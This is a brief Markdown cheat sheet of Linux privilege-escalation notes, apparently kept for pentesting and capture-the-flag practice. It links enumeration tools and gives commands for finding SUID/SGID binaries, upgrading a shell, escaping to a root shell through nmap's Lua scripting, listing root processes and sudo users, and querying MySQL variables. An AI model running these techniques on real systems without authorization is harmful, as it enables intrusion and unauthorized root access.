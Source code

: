 # privilege escalation

## tools

- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
- [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)
- [thief](https://github.com/montyonsecurity/thief)

## password cracking

### rules

    hashcat -r /usr/share/hashcat/rules/best64.rule --stdout sorted-passes.lst | strings | sort -u > best64-passes.lst

## binaries

### suid

    find / $(pwd) -perm /4000 2> /dev/null

### sgid

    find / $(pwd) -perm /2000 2> /dev/null

### both

    find / $(pwd) -perm /6000 2> /dev/null

### gdb basics

TryHackMe's The Cod Caper showcases some basic gdb usage

### little endian

converting hex to little endian syntax

hex = 0x080484cb
little endian = /xcb/x84/x04/x08

## get bash

    /bin/bash -i`
    python -c 'import pty;pty.spawn("/bin/bash")'`

## exploiting nmap

Nmap scripts are written in Lua and you can pass Lua code to the NSE directly
    
    nmap --script <(echo 'os.execute("/bin/sh")')

## processes running as root

    ps -U root

## processes running as root (verbose)

    ps aux | grep root

## users who can sudo

    cat /etc/group | grep sudo

## login info

    cat /etc/login.defs | grep -v \# | grep [a-zA-Z0-9]
 
## sql

### find plugins folder (ran with what pirvilige sql has)

    select @@plugin\_dir;

### Find varibale value in sql

    select @@variable\_name;

